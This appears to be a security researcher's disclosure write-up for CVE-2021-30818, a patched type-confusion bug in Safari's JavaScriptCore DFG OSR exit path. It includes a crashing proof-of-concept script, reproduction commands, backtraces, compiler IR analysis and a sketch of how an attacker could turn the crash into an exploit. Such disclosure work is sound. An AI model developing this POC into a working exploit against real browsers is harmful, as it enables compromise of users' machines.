 ```yaml
---
layout: post
title:  "CVE-2021-30818 - Type confusion when reconstructing arguments on DFG OSR Exit"
date:   2021-11-11 07:26:16 +0000
categories: jekyll update
---
```


# Build Details
```
Product: Safari/JavaScriptCore
Version: Safari 14.1 (15611.1.21.161.7, 15611)
Hardware: Mac(Intel) macOS 10.15.7

git-svn commit:

commit 243095f056a2f8591da746183197c922a5fc7266 (HEAD -> safari-611.1.21.161, safari-611.1.21.161-branch)
Author: repstein@apple.com <repstein@apple.com@268f45cc-cd09-0410-ab3c-d52691b4dbfc>
Date:   Fri Apr 30 04:44:29 2021 +0000

    Versioning.
    
    WebKit-7611.1.21.161.7
    
    git-svn-id: https://svn.webkit.org/repository/webkit/branches/safari-611.1.21.161-branch@276830 268f45cc-cd09-0410-ab3c-d52691b4dbfc
```

# Build Steps
```
./Tools/Scripts/build-webkit --jsc-only --debug
```

# POC

The following program was generated by modifying a POC for CVE-2019-8820. The program below crashes debug builds built from the WebKit branch 611.1.21.161.
```js
function main() {
const v12 = [1337,1337];
const v13 = [1337,v12,v12,0];
for (let v14 = 0; v14 < 1000; v14++) {
    function v15(v16,v17) {
        const v18 = v14 + 127;
        const v19 = String();
        const v20 = String.fromCharCode(v14,v14,v18);
        const v21 = v13.shift();
        function v22() {
            const v23 = arguments;
        }
        const v24 = Object();
        const v25 = {};
        const v26 = v22(v25,129);
        const v27 = [-903931.176976766,v20,null,null,-903931.176976766];
        function v30() {
        }
        const v31 = {ownKeys:v30};
        const v32 = {};
        
        // At this point DFG node D@288 will be created 
        // which fills the operand loc28
        const v33 = new Proxy(v32,v31);
        Function.__proto__ = v33;
        const v34 = v27.join();
        try {
            const v35 = Function();

            // In order to keep node D@288 alive,
            // and in turn loc28 alive we assign 
            // v35 to the prototype of Proxy
            Proxy.__proto__ = v35;
            for (let v37 = 0; v37 < 127; v37++) {
                const v38 = isFinite();
                const v39 = isFinite;
                function v40(v41,v42,v43) {
                }
                const v44 = 1337;
                const v45 = undefined;
                const v46 = "function(){}";
                function* v47(v48,v49,v50,v51,v52) {
                }
                const v53 = charAt;
                function v56(v57,v58,v59,v60,v61) {
                    const v62 = v36(v35,v37);
                }
                for (let v64 = 0; v64 >= 10000; v64++) {
                }
                const v65 = 10000;
                const v66 = v38[4];
            }
        } catch(v67) {
        }
    }
    const v68 = v15();
}
}
noDFG(main);
noFTL(main);
main();
```

# Steps to reproduce
```js
$ ./WebKitBuild/Debug/bin/jsc --useConcurrentJIT=false poc.js

ASSERTION FAILED: cell->inherits(cell->JSC::JSCell::vm(), std::remove_pointer<T>::type::info())
../../Source/JavaScriptCore/runtime/WriteBarrier.h(58) : void JSC::validateCell(T) [with T = JSC::JSFunction*]

bt
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff225d859 in __GI_abort () at abort.c:79
#2  0x00005555555d569c in CRASH_WITH_INFO(...) () at DerivedSources/ForwardingHeaders/wtf/Assertions.h:713
#3  0x00007ffff52de762 in JSC::validateCell<JSC::JSFunction*> (cell=0x7fffaefd4240) at ../../Source/JavaScriptCore/runtime/WriteBarrier.h:58
#4  0x00007ffff52dbf82 in JSC::WriteBarrierBase<JSC::JSFunction, WTF::RawPtrTraits<JSC::JSFunction> >::set (this=0x7fffaefb6618, vm=..., owner=0x7fffaefb6600, value=0x7fffaefd4240) at ../../Source/JavaScriptCore/runtime/WriteBarrierInlines.h:38
#5  0x00007ffff576742c in JSC::DirectArguments::setCallee (this=0x7fffaefb6600, vm=..., function=0x7fffaefd4240) at ../../Source/JavaScriptCore/runtime/DirectArguments.h:116
#6  0x00007ffff572fe9a in JSC::DFG::operationCreateDirectArgumentsDuringExit (vmPointer=0x7fffaf700000, inlineCallFrame=0x7fffef993e80, callee=0x7fffaefd4240, argumentCount=3) at ../../Source/JavaScriptCore/dfg/DFGOperations.cpp:2067
#7  0x00007fffef8facf5 in ?? ()
#8  0x00010000ffffffff in ?? ()
#9  0x0000000000000000 in ?? ()
```

# Analysis
This is a regression of the type confusion bug from CVE-2019-8820 that was first reported by Google P0 (https://bugs.chromium.org/p/project-zero/issues/detail?id=1924). This a fix was introduced as part of revision 250058 (https://bugs.webkit.org/show_bug.cgi?id=200715)(<rdar://problem/54301717>). However, this remediation did not fully address the issue and this POC illustrates that. 

In the POC above, the DFG compiles function v22 and isFinite and inlines them when the DFG compiles function v15. The relevant DFG IR snippets from the optimised graph generated for v15 are listed below:
```c++
     0   :   --> v22#CeT3Wk:<0x7fffaefc4390, bc#244, Call, closure call, numArgs+this = 3, numFixup = 0, stackOffset = -32 (loc0 maps to loc32)>

115  0   :    D@235:<!4:loc24>  PhantomDirectArguments(JS|MustGen|PureInt, DirectArguments, R:Stack,Stack(loc28),HeapObjectCount, W:HeapObjectCount, Exits, ClobbersExit, bc#7, ExitValid)
116  0   :    D@566:<!0:->      Phantom(Check:Untyped:D@58, MustGen, R:Stack(loc28), bc#7, ExitInvalid)
117  0   :    D@236:<!0:->      MovHint(Check:Untyped:D@235, MustGen, loc38, R:Stack(loc28), W:SideState, ClobbersExit, bc#7, ExitInvalid)

119  0   :    D@241:<!0:->      MovHint(Check:Untyped:D@235, MustGen, loc39, R:Stack(loc28), W:SideState, ClobbersExit, bc#12, ExitValid)
120  0   :    D@243:<!0:->      MovHint(Check:Untyped:D@235, MustGen, loc40, R:Stack(loc28), W:SideState, ClobbersExit, bc#15, ExitValid)

     0   :   <-- v22#CeT3Wk:<0x7fffaefc4390, bc#244, Call, closure call, numArgs+this = 3, numFixup = 0, stackOffset = -32 (loc0 maps to loc32)>


148  0   :  D@288:< 9:loc22>    JSConstant(JS|UseAsOther, OtherObj, Weak:Object: 0x7fffaefd4240 with butterfly 0x7fe0cf1fdee8 (Structure %AP:Proxy), StructureID: 23505, bc#295, ExitValid)

152  0   :  D@296:<!0:->        MovHint(Check:Untyped:D@288, MustGen, loc28, W:SideState, ClobbersExit, bc#309, ExitValid)
153  0   :  D@298:<!0:->        FilterCallLinkStatus(Check:Untyped:D@288, MustGen, Statically Proved, InternalFunction: Object: 0x7fffaefd4240 with butterfly 0x7fe0cf1fdee8 (Structure 0x7fffaef85ce0:[0x5bd1, Proxy, {length:100, name:101, revocable:102}, NonArray, Proto:0x7fffaef8e720, Leaf]), StructureID: 23505, W:SideState, bc#312, ExitValid)
154  0   :  D@299:<!2:loc19>    Construct(Check:Untyped:D@288, Check:Untyped:D@288, Check:Untyped:D@278, Check:Untyped:D@268, JS|MustGen|VarArgs|UseAsOther, ProxyObject, R:World, W:Heap, ExitsForExceptions, ClobbersExit, bc#312, ExitValid)  predicting ProxyObject



227  0   :  D@410:< 3:loc20>    NewFunction(KnownCell:D@364, JS|PureNum, Function, <0x7fffaefe5500, FunctionExecutable>, v56#<nogen>/<nogen>:[0x7fffaefe5500], R:HeapObjectCount, W:HeapObjectCount, ExitsForExceptions, bc#490, ExitValid)
228  0   :  D@712:<!0:->        Phantom(Check:Untyped:D@235, MustGen, bc#490, ExitValid)
232  0   :  D@416:< 6:loc20>    JSConstant(JS|UseAsOther, OtherObj, Weak:Object: 0x7fffaf5fa068 with butterfly 0x7fe0cf1e4408 (Structure %Bv:global), StructureID: 64314, bc#497, ExitValid)

     0   :   --> isFinite#DJEgRe:<0x7fffaefc7c90 (StrictMode), bc#512, Call, known callee: Object: 0x7fffaeff5c80 with butterfly (nil) (Structure %Bw:Function), StructureID: 39487, numArgs+this = 1, numFixup = 1, stackOffset = -46 (loc0 maps to loc46)>
237  0   :    D@429:< 11:loc22> JSConstant(JS|UseAsOther, Other, Undefined, bc#0, ExitInvalid)
238  0   :    D@430:<!0:->      MovHint(Check:Untyped:D@416, MustGen, loc40, W:SideState, ClobbersExit, bc#0, ExitInvalid)
239  0   :    D@431:<!0:->      MovHint(Check:Untyped:D@429, MustGen, loc39, W:SideState, ClobbersExit, bc#0, ExitInvalid)
240  0   :    D@432:<!0:->      ExitOK(MustGen, W:SideState, bc#0, ExitValid)
241  0   :    D@433:< 2:->      SetLocal(Check:Untyped:D@416, IsFlushed, loc40(GF~<Object>/FlushedJSValue), machine:loc16, W:Stack(loc40), bc#0, ExitValid)  predicting OtherObj
242  0   :    D@434:< 2:->      SetLocal(Check:Untyped:D@429, IsFlushed, loc39(HF~<Other>/FlushedJSValue), machine:loc15, W:Stack(loc39), bc#0, ExitValid)  predicting Other
```

The VarArgs Forwarding phase, converts the CreateDirectArguments node at D@235 to PhantomDirectArguments node. The Phantom Insertion phase, which runs after the VarArgs Forwarding phase, determines that loc40 is being kept alive by node D@243 and that loc40 is also being used at node D@433. Due to this the phase inserts a Phantom node D@712 to keep the children of node D@235 alive so that at OSR Exit from the DFG compiled code, the bytecode register values (e.g. loc40. loc39, etc) can be retrieved.

However, when OSR Exit does occur, and PhantomDirectArguments needs to be reconstructed the function operationCreateDirectArgumentsDuringExit is invoked. One of the parameters passed to this function is the value callee which is expected to be of the type JSFunction* and retrieved from the value stored in loc28. At the time of OSR Exit the value of loc28 is retrieved by referencing the node D@288 which points to the JSProxy object v33 in the POC: 
```js
const v33 = new Proxy(v32,v31);
Function.__proto__ = v33;
```
loc28 stores the memory address of the object v33 and this value is passed as the parameter callee to operationCreateDirectArgumentsDuringExit. When this reference is then stored into a WriteBarrier<JSFunction> during a call to setCallee, an assertion is raised in debug builds.

In order to exploit this type confusion, an attacker would have to suitably modify the POC to control the values that are retrieved from loc28 which then gets written into the memory location expecting a JSFunction pointer. If this value is then subsequently, accessed by user supplied code, the GC or other engine internals, it may lead to an exploitable condition. As an example, if the following line in the POC is commented out, it leads to node D@288 being killed and the value of loc28 being retrieved as jsUndefined which is the constant 0xa:
```js
//Proxy.__proto__ = v35;
```
The debug build would then hard crash when it attempts to de-reference the pointer value. The stack trace for this is shown below:
```js
Thread 1 "jsc" received signal SIGSEGV, Segmentation fault.
0x00005555555e9c62 in JSC::WeakSet::vm (this=0xffffffffffffffca) at ../../Source/JavaScriptCore/heap/WeakSet.h:84
84	    return *m_vm;

bt

#0  0x00005555555e9c62 in JSC::WeakSet::vm (this=0xffffffffffffffca) at ../../Source/JavaScriptCore/heap/WeakSet.h:84
#1  0x00005555555e9f8a in JSC::PreciseAllocation::vm (this=0xffffffffffffffa2) at ../../Source/JavaScriptCore/heap/PreciseAllocation.h:75
#2  0x00005555555f2f92 in JSC::HeapCell::vm (this=0xa) at ../../Source/JavaScriptCore/heap/HeapCellInlines.h:65
#3  0x00005555555f41e2 in JSC::JSCell::structure (this=0xa) at ../../Source/JavaScriptCore/runtime/JSCellInlines.h:136
#4  0x00007ffff52ddb92 in JSC::validateCell<JSC::JSFunction*> (cell=0xa) at ../../Source/JavaScriptCore/runtime/WriteBarrier.h:58
#5  0x00007ffff52db462 in JSC::WriteBarrierBase<JSC::JSFunction, WTF::RawPtrTraits<JSC::JSFunction> >::set (this=0x7fffaefb6618, vm=..., owner=0x7fffaefb6600, value=0xa) at ../../Source/JavaScriptCore/runtime/WriteBarrierInlines.h:38
#6  0x00007ffff5766906 in JSC::DirectArguments::setCallee (this=0x7fffaefb6600, vm=..., function=0xa) at ../../Source/JavaScriptCore/runtime/DirectArguments.h:116
#7  0x00007ffff572f374 in JSC::DFG::operationCreateDirectArgumentsDuringExit (vmPointer=0x7fffaf700000, inlineCallFrame=0x7fffef994cc0, callee=0xa, argumentCount=3) at ../../Source/JavaScriptCore/dfg/DFGOperations.cpp:2067
#8  0x00007fffaf905ea3 in ?? ()
```

# Apple Advisories

https://support.apple.com/en-ug/HT212816

https://support.apple.com/en-us/HT212869

https://support.apple.com/en-afri/HT212815